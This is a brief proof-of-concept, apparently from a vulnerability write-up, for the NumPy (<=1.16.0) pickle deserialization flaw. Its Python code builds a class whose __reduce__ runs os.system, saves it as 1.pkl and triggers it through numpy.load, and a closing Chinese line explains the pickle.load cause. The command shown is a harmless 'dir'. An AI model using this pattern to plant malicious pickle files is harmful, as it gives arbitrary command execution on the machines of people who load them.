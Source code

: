 (NumPy <=1.16.0)

```python
import numpy
import pickle

class genpoc(object):

	def __reduce__(self):
		import os
		s = """dir"""
		return os.system, (s,) 

e = genpoc()
flag=0
if flag:
	poc = pickle.dumps(e)
	print(poc)
else:
	with open('1.pkl', 'wb') as f:
	    pickle.dump(e, f)

numpy.load('1.pkl');
```

其实也是在numpy中使用了pickle.load函数的序列化